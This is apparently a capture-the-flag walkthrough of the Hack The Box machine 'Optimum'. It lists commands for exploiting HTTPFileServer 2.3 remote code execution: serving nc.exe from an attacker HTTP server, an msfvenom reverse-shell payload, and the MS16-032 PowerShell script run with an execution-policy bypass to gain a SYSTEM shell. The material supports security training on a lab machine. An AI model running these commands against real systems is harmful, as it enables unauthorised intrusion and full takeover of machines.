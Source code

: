 # Optimum

### Full port scan

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

### HTTPFileServer 2.3 RCE

![](<../../.gitbook/assets/image (99).png>)

* HTTPFileServer 2.3

[https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

* Edit the local IP addr and port number

![](<../../.gitbook/assets/image (80).png>)

* `cp /usr/share/windows-resources/binaries/nc.exe .`
* `python3 -m http.server 80`
* `python2.7 39161 10.10.10.8 80`
* Obtained user shell

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

* Running windows exploit suggester

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

* `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`
* Used [`https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1`](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)
* Changed the payloads to `c:\\users\\kostas\\desktop\\reverse.exe`

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

* `c:\\windows\\sysnative\\windowspowershell\\v1.0\\powershell.exe -ep bypass .\\Invoke-MS16-032-Remote-Shell.ps1`
* Obtained ROOT

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8aac527b-9509-4339-852b-de86325dd20d/Untitled.png)
